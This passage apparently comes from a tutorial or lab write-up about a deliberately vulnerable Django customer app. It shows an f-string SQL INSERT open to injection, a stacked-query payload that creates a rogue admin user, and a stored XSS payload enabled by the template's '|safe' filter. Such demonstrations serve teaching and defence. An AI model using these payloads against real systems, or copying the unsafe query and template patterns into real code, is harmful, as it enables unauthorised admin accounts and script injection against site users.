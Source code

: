 #### **Vulnerable Code Location:**
```python
# mainapp/views.py - add_customer() function
query = f"""
    INSERT INTO mainapp_customer (first_name, last_name, id_number, created_by)
    VALUES ('{first_name}', '{last_name}', '{id_number}','{username}');
"""
```

#### **Attack Payload:**
```sql
First Name: John'); INSERT INTO mainapp_user VALUES ('hacker', 'hacker@evil.com', 'adminpass', 'salt'); --
Last Name: Doe
ID: 123456789
```

#### **What Happens:**
```sql
-- Intended query:
INSERT INTO mainapp_customer (...) VALUES ('John', 'Doe', '123456789', 'user');

-- Malicious query:
INSERT INTO mainapp_customer (...) VALUES ('John'); INSERT INTO mainapp_user VALUES ('hacker', 'hacker@evil.com', 'adminpass', 'salt'); --', 'Doe', '123456789', 'user');

-- Result: Customer added AND new admin user created!
```

---

## 🚨 **XSS Attack Demonstrations**

### **🎯 Stored XSS Attack 1: Customer List**

#### **Vulnerable Code Location:**
```html
<!-- mainapp/templates/mainapp/customer_list.html -->
<td>{{ customer.first_name|safe }} {{ customer.last_name|safe }}</td>
<td>{{ customer.id_number|safe }}</td>
```

**⚠️ The `|safe` filter disables Django's XSS protection!**

#### **Attack Payload:**
```html
First Name: <script>alert('XSS Attack - Customer List Compromised!');</script>
Last Name: Victim
ID: 999999999
```

#### **What Happens:**
1. Malicious script stored in database
2. Every user viewing customer list executes the script
3. **Persistent attack** affects all users

---